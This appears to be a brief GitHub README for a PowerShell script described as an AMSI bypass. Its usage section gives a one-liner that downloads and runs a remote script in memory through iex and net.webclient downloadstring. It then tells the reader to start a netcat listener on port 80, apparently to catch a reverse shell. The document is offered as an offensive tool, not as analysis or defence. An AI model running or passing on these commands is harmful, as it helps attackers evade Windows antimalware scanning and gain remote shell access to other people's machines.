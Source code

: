 ## Basic Usage
This is a powershell script that bypass amsi :)

How to execute ? 
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/AeroWw/obstest/main/script.ps1')
```

set up a listerner 
nc -lvnp 80

Remember to stop any service running on port 80
